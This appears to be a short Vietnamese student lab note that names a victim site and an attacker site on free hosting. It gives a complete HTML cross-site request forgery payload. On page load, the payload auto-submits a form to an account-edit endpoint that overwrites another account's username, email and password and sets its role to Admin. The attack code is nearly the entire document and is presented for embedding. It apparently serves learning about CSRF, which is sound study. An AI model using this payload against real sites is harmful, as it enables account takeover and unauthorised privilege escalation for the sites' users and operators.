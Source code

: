 Người thực hiện: Lê Trần Văn Chương
Ngày: 18/04/2022

- Link: 
    - Victim: https://00bluec10.000webhostapp.com/index.php
    - Attack: https://php-bacsic.000webhostapp.com/
- Nhúng đoạn code sau vào:
```html
<body onload="document.formCsrf.submit()">
    <div>
        <form method="POST" name="formCsrf" action="https://00bluec10.000webhostapp.com/EditAccount.php?accountId=2">
            <input type="text" value="CSRF" name="username"></label><br />
            <input type="text" value="csrf@gmail.com" name="email"></label><br />
            <input type="text" value="csrf" name="password"></label><br />
            <select name="role">
                <option value="1">Admin</option>
            </select></label> <br />
        </form>
    </div>
</body>
```